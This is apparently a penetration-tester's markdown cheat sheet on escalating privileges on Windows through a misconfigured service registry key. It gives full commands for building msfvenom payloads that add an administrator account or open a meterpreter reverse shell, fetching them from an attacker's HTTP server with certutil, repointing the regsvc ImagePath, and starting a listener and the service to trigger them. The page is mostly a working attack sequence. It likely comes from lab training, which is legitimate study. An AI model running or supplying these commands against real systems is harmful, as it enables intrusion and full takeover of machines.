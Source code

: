 ```yaml
---
legal-banner: true
---
```


### **EXPLOITING INSECURE SERVICE WITH METASPLOIT**

1.  let’s create a binary to Add a User to the Administrators with msfvenom.  
    `msfvenom -p windows/x64/exec CMD='net localgroup Administrators [USERNAME] /add' -f exe > hackfast.exe`  
    
    ![](../../../../img/Windows-Environment/118.png)
    
2.  Host the binary using Pythong HTTP server and transfer it to the target Machine with certutil.  
    `certutil -urlcache -f http://[IP-ADRESS]:8001/hackfast.exe hackfast.exe`  
    
    ![](../../../../img/Windows-Environment/119.png)
    
3.  change the ImagePath on the regsvc service registry key to point to our malicious executable. We can do this using the following command:  
    `reg add "HKLM\SYSTEM\CurrentControlSet\services\regsvc" /v ImagePath /t REG_EXPAND_SZ /d c:\temp\hackfast.exe /f`  
    
    ![](../../../../img/Windows-Environment/120.png)

    **NOTE:** we can check if ImagePath set properly with following commands:  
    `reg query "HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\regsvc"`
    
4.  Now run `net start regsvc` on the target to execute the exploit.  

    ![](../../../../img/Windows-Environment/121.png)

    **NOTE:** If SeShutdownPrivilege is enabled you can reboot to have the service to restart automatically.  
    `shutdown /r /t 0`
    

### **GENERATING REVERSE SHELL WITH MSFVENOM**

1.  let’s create a reverse shell binary with msfvenom.  
    `msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe LHOST=[ATTACKER-IP] LPORT=[PORT] -o hackfast.exe`  
    
    ![](../../../../img/Windows-Environment/122.png)
    
2.  Host the binary using Python HTTP server and transfer it to the target Machine with certutil.  
    `certutil -urlcache -f http://[IP-ADRESS]:8001/hackfast.exe hackfast.exe`  
    
    ![](../../../../img/Windows-Environment/123.png)
    
3.  change the ImagePath on the regsvc service registry key to point to our malicious executable. We can do this using the following command:  
    `reg add "HKLM\SYSTEM\CurrentControlSet\services\regsvc" /v ImagePath /t REG_EXPAND_SZ /d c:\temp\hackfast.exe /f`  
    
    ![](../../../../img/Windows-Environment/124.png)

    **NOTE:** we can check if ImagePath set properly with following commands:  
    `reg query "HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\regsvc"`
    
4.  Start your listener on the attacking machine  
    `msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT [PORT]; run"`  
    
    ![](../../../../img/Windows-Environment/125.png)
    
5.  Now run `net start regsvc` on the target Machine to execute the exploit.  
    
    ![](../../../../img/Windows-Environment/126.png)

    **NOTE:** If SeShutdownPrivilege is enabled you can reboot to have the service to restart automatically.  
    `shutdown /r /t 0`